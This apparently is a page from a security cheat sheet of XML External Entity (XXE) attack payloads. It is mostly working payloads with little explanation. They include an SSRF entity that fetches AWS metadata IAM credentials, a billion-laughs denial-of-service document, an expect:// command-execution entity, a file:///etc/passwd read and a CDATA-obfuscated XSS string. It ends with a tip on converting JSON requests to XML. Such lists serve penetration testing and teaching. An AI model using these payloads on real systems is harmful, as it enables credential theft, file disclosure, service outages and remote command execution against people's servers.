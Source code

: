 * Server-Side Request Forgery (**SSRF**)
```ruby
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```
* DoS Attack (**DOS**)

```ruby
<!DOCTYPE data [
<!ENTITY a0 "dos" >
<!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
<!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
<!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
<!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
]>
<data>&a4;</data>
```

* Remote Code Execution (**RCE**)

<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo
  [<!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "expect://id" >]>
<creds>
  <user>`&xxe;`</user>
  <pass>`mypass`</pass>
</creds>

![](https://i.imgur.com/pKGL3Zz.png)

* Read Files

```ruby
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

* Cross Site Scripting (**XSS**)

```ruby
<![CDATA[<]]>script<![CDATA[>]]>alert(1)<![CDATA[<]]>/script<![CDATA[>]]>
```

Content-Type: From JSON to XEE
To change the request you could use a Burp Extension named [**Content Type Converter**](https://exploitstube.com/xxe-for-fun-and-profit-converting-json-request-to-xml.html). 

Here you can find this example:

```ruby
Content-Type: application/json;charset=UTF-8

{"root": {"root": {
  "firstName": "Avinash",
  "lastName": "",
  "country": "United States",
  "city": "ddd",
  "postalCode": "ddd"
}}}
```
